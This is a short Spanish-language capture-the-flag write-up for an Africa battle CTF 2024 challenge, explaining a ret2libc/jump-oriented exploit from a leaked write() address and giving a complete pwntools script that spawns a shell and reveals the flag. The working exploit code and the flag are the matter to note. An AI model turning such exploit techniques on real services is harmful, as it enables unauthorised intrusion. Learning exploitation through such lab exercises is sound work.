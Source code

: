 Consiste en un ret2libc, la direccion de Write se encuentra filtrada:

```
 Africa battle CTF 2024
 Write() address : 0x7fbd61f354d0
```

El offset es de 72 bytes, el objetivo es obtener la direccion base de libc a partir de la direccion de la funcion filtrada y el offset de esa misma funcion con respecto a libc. Luego usamos algun gadget para llamar a system(arg1), que ejecutará un comando en el equipo. Como system necesita un argumento y en la arquitectura amd64 el primer argumento pasado a una función es rdi, entonces el plan es el siguente:

+ Encontrar la direccion base de libc
+ Escribir la direccion '/bin/sh' en rdi
+ Ejecutar system('/bin/sh')

Este es el exploit de python:

``` python
from pwn import *
io = remote('localhost',1003)
libc = ELF('./source/libc.so.6',checksec=False)

pop_rax_ret = 0x0000000000040647
pop_rdi_jmp_rax = 0x000000000002b003

io.recvline()
io.recvuntil(b'Write() address : ')
libc.address = int(io.recvuntil(b'\n'),16) - libc.symbols['write']

payload = b'A'*72
payload += p64(libc.address+pop_rax_ret)
payload += p64(libc.symbols['system'])
payload += p64(libc.address+pop_rdi_jmp_rax)
payload += p64(next(libc.search(b'/bin/sh')))

io.send(payload)
io.interactive()
```

Ganamos la shell interactiva y obtenemos la flag:

```
[+] Opening connection to localhost on port 1003: Done
[*] Switching to interactive mode
$ cat flag.txt
battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
```

`battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}`
